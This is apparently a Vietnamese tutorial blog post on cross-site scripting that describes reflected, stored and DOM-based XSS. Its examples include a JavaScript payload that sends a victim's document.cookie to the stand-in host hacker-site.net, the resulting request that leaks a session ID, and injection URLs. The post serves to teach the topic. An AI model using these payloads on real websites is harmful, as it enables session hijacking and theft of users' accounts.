 ```yaml
---
layout: post
title: Cross Site Scripting - XSS Attack
description: "Attack Method: XSS (Cross Site Scripting)"
headline: 
modified: 2018-02-13
category: network
tags: [XSS]
imagefeature: cover/macos/008.jpg
mathjax:
chart:
share: true
# comments: true
# featured: true
highlight: true
---
```


Attack Method: XSS (Cross Site Scripting)

Language: Vietnamese

## XSS - Cross-Site Scripting
Cross-Site Scripting (XSS) là một trong những kĩ thuật tấn công phổ biến nhất hiên nay, đồng thời nó cũng là một trong những vấn đề bảo mật quan trọng đối với các nhà phát triển web và cả những người sử dụng web. Bất kì một website nào cho phép người sử dụng đăng thông tin mà không có sự kiểm tra chặt chẽ các đoạn mã nguy hiểm thì đều có thể tiềm ẩn các lỗi XSS.

### Giới thiệu
Cross-Site Scripting hay còn được gọi tắt là XSS (thay vì gọi tắt là CSS để tránh nhầm lẫn với CSS-Cascading Style Sheet của HTML) là một kĩ thuật tấn công bằng cách chèn vào các website động (ASP, PHP, CGI, JSP …) những thẻ HTML hay những đoạn mã script nguy hiểm có thể gây nguy hại cho những nạn nhân sử dụng.

### Cách hoạt động
Lỗi này xảy ra khi ứng dụng web thu nhận các dữ liệu nguy hiểm được nhập từ hacker. Một website thường chứa các link, thông qua các link này hacker có thể chèn các đoạn code vào và khi người dùng nào đó sử dụng link này thì coi như 99% là chết, hacker có thể thông qua lỗi này để chèn code vào site hay link để lấy các thông tin quan trọng từ nạn nhân



Phụ thuộc vào mục đích của hacker, những đoạn Javascript được chèn vào để lấy những thông tin như:

+ Cookie: hacker có thể lấy được cookie của người dùng và dùng những thông tin trong cookie để giả mạo phiên truy cập hoặc lấy những thông tin nhạy cảm khác được lưu trong cookie.
+ Keylogging: hacker có thể ghi lại những thao tác gõ phím của người dùng bằng cách sử dụng sự kiện trong Javascript và gửi tất cả những thao tác gõ phím đó về cho hắn để thực hiện những mục đích như đánh cắp các thông tin nhạy cảm, lấy mật khẩu truy cập website hoặc mã số thẻ tín dụng…
+ Phishing: hacker có thể thay đổi giao diện của website bằng cách thay đổi cấu trúc HTML trong trang web để đánh lừa người dùng. Hacker có thể tạo ra những form đăng nhập giả nhằm lừa người dùng đăng nhập vào để đánh cắp mật khẩu.

Sau đó các thông tin này được gửi tới cho hacker . Cách thường dùng của hacker là mã hoá các phần nguy hiểm của link ( đã chèn code) thành kiểu HEX ( hoặc có thể là các hình thức khác ) để làm cho nạn nhân ít nghi ngờ khi click vào cái link nguy hiểm đó . Sau đó là tìm cách nào đó để cho nạn nhân chịu click vào cái link đó.

Hầu hết các ứng dụng web hiện nay dùng cookie để kết hợp 1 tài khoản duy nhất cho 1 người dùng nào đó , nghĩa là cookie của người nào người đó dùng . Các webmail , web bán hàng , nhà băng , … đa số đều dùng cookie với mục đích chứng thực ngừơi dùng , và đây là cái mà hacker cần.

### Vi dụ
Ví dụ url có chứp đoạn mã script
```html
http://www.example.com/search.cgi?query=<script>alert(‘Website đang bị lỗi XSS!’);</script>.
```
Xuất hiện alert => bị lỗ hổng XSS

## Phân loại XSS
Phân loại: Có 3 loại Reflected XSS, Stored XSS và DOM-based XSS

### Reflected XSS
Ở kịch bản này, hacker sẽ gửi cho nạn nhân một URL có chứa đoạn mã nguy hiểm. Nạn nhân chỉ cần gửi request đến URL này thì hacker sẽ có được kết quả mong muốn. Cụ thể:
1. Người dùng đăng nhập web và giả sử được gán session: 
```
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4
```
2. Bằng cách nào đó, hacker gửi được cho người dùng URL:
```
http://example.com/name=var+i=new+Image;+i.src=”http://hacker-site.net/”%2bdocument.cookie;
```
Giả sử `example.com` là website nạn nhân truy cập, `hacker-site.net` là trang của hacker tạo ra
3. Nạn nhân truy cập đến URL trên
4. Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request(đoạn javascript của hacker)
5. Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript
6. Đoạn javascript mà hacker tạo ra thực tế như sau: 
```js
var i = new Image; i.src = 'http://hacker-site.net/' + document.cookie;
```
Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:
```
GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1
Host: hacker-site.net
```
7. Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng sẽ bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.

### Stored XSS
Khác với Reflected tấn công trực tiếp vào một số nạn nhân mà hacker nhắm đến, Stored XSS hướng đến nhiều nạn nhân hơn. Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào cơ sở dữ liệu (ở đây tôi dùng khái niệm này để chỉ database, file hay những khu vực khác nhằm lưu trữ dữ liệu của ứng dụng web). Ví dụ như các form góp ý, các comment … trên các trang web.

Với kỹ thuật Stored XSS , hacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước.
+ Đầu tiên hacker sẽ thông qua các điểm đầu vào (form, input, textarea…) không được kiểm tra kỹ để chèn vào CSDL các đoạn mã nguy hiểm.
+ Tiếp theo, khi người dùng truy cập vào ứng dụng web và thực hiện các thao tác liên quan đến dữ liệu được lưu này, đoạn mã của hacker sẽ được thực thi trên trình duyệt người dùng.

### DOM Based XSS
DOM Based XSS là kỹ thuật khai thác XSS dựa trên việc thay đổi cấu trúc DOM của tài liệu, cụ thể là HTML. Chúng ta cùng xem xét một ví dụ cụ thể sau.

Một website có URL đến trang đăng ký như sau:
```
http://example.com/register.php?message=Please fill in the form
```

Khi truy cập đến thì chúng ta thấy một Form rất bình thường. Tuy nhiên nếu đổi thành
```
http://example.com/register.php?message=<label>Gender</label><div class="col-sm-4">MaleFemale</div>function show(){alert();}
```
Người dùng sẽ chẳng chút nghi ngờ với một form “bình thường” như thế này, và khi lựa chọn giới tính, Script sẽ được thực thi


## Tham khảo


[https://techtalk.vn/ki-thuat-tan-cong-cross-site-scripting.html](https://techtalk.vn/ki-thuat-tan-cong-cross-site-scripting.html)

[https://labs.septeni-technology.jp/security/tim-hieu-ve-lo-hong-cross-site-scripting/](https://labs.septeni-technology.jp/security/tim-hieu-ve-lo-hong-cross-site-scripting/)
